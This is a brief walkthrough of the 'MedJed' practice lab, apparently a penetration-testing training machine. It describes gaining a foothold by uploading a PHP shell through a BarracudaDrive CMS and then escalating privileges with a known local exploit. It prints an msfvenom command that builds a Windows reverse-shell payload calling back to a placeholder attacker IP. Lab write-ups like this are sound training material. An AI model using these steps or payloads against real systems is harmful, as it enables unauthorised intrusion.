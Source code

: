 # MedJed - Walkthrough

## 🧗 Initial Foothold

### 🌐 1. Web Service on Port 8000
- Discovered **BarracudaDrive v6.5** running on port `8000`.
- Searched online and found a known **privilege escalation (PE) exploit** for this version.

### 🛠️ 2. CMS File Upload
- Found a CMS interface allowing file uploads.
- Navigated to:
  ```
  xampp/htdocs/
  ```
- Uploaded a `shell.php` payload.

### 🔓 3. Trigger the Shell
- Accessed the uploaded file via the secondary HTTP port:
  ```
  http://<target-ip>:45332/shell.php
  ```
- Successfully received a reverse shell.

---

## ⚙️ Privilege Escalation

### 📄 1. Use Exploit from `windows/local/48789.txt`
- Instead of creating a new user (as suggested in the original PoC), generated a reverse shell payload using `msfvenom`.

### 💣 2. Execute Reverse Shell Payload
- Crafted payload:
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<port> -f exe > shell.exe
  ```
- Transferred `shell.exe` to the target.
- Executed it and received a privileged reverse shell connection.

---

## 🧠 Notes

- The foothold required exploiting a vulnerable CMS upload feature.
- Privilege escalation was simple due to a known local exploit and a flexible payload strategy.
- Using `msfvenom` instead of user-creation gave faster and more direct root access.
